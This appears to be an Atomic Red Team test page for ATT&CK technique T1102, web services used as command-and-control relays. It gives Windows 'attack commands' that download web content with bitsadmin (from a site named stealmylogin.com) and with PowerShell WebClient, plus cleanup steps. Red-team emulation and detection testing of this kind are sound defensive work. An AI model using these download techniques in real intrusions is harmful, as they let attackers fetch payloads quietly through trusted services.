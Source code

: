 # T1102 - Web Service
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1102)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for relaying commands to a compromised system.

These commands may also include pointers to command and control (C2) infrastructure. Adversaries may post content, known as a dead drop resolver, on Web services with embedded (and often obfuscated/encoded) domains or IP addresses. Once infected, victims will reach out to and be redirected by these resolvers.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection.

Use of Web services may also protect back-end C2 infrastructure from discovery through malware binary analysis while also enabling operational resiliency (since this infrastructure may be dynamically changed).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reach out to C2 Pointer URLs via command_prompt](#atomic-test-1---reach-out-to-c2-pointer-urls-via-command_prompt)

- [Atomic Test #2 - Reach out to C2 Pointer URLs via powershell](#atomic-test-2---reach-out-to-c2-pointer-urls-via-powershell)


<br/>

## Atomic Test #1 - Reach out to C2 Pointer URLs via command_prompt
Download data from a public website using command line

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
bitsadmin.exe /transfer "DonwloadFile" http://www.stealmylogin.com/ %TEMP%\bitsadmindownload.html
```

#### Cleanup Commands:
```
del %TEMP%\bitsadmindownload.html
```





<br/>
<br/>

## Atomic Test #2 - Reach out to C2 Pointer URLs via powershell
Multiple download methods for files using powershell

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
Invoke-WebRequest -Uri www.twitter.com
$T1102 = (New-Object System.Net.WebClient).DownloadData("https://www.reddit.com/")
$wc = New-Object System.Net.WebClient
$T1102 = $wc.DownloadString("https://www.aol.com/")
```

#### Cleanup Commands:
```
Clear-Variable T1102
```





<br/>
